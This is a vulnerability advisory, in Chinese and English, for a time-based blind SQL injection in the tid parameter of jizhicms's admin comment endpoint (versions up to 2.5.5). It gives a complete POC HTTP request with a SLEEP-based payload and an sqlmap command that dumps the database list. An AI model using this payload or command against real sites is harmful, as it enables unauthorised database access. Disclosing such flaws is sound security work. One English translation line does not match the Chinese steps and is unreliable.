



# jizhicms<=V2.5.5-addcomment.html-tid parameter-SQL injection

## Supplier

https://www.jizhicms.cn/

## Description

Ultimate CMS aims to help netizens solve the troubles of using Ultimate CMS and the difficulties encountered in daily website building. SQL injection exists

## POC

在互动管理-评论列表-添加评论

In Settings - Project Information - Basic Settings - Add - Display Name - Field Name


添加评论，然后将以下空白框内全部填上数据

Add a comment and fill in all the data in the blank boxes below



漏洞点在tid参数处


```
POST /index.php/admins/Comment/addcomment.html HTTP/1.1
Host: 192.168.24.65:1002
Content-Length: 220
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.24.65:1002
Referer: http://192.168.24.65:1002/index.php/admins/Comment/addcomment.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; PHPSESSID=71ui30k1t81pk650ath51bu9bh
Connection: close

go=1&userid=0001&tid=0' OR (SELECT 9220 FROM (SELECT(SLEEP(5)))psAH) AND 'XPWY'='XPWY&aid=0002&zid=0003&pid=0004&body=%3Cp%3E123123%3C%2Fp%3E&reply=123123&ismsg=0&likes=0&isread=0&isshow=1&addtime=2025-11-12+21%3A35%3A47
```

SQLmap

```
python sqlmap.py -r sql.txt -p tid --batch --risk 3 --dbs
```



代码分析

code analysis

参数直接拼接并且没加任何过滤

Parameters are directly concatenated without any filtering added



## version

Vulnerabilities affect versions

jizhicms<=V2.5.5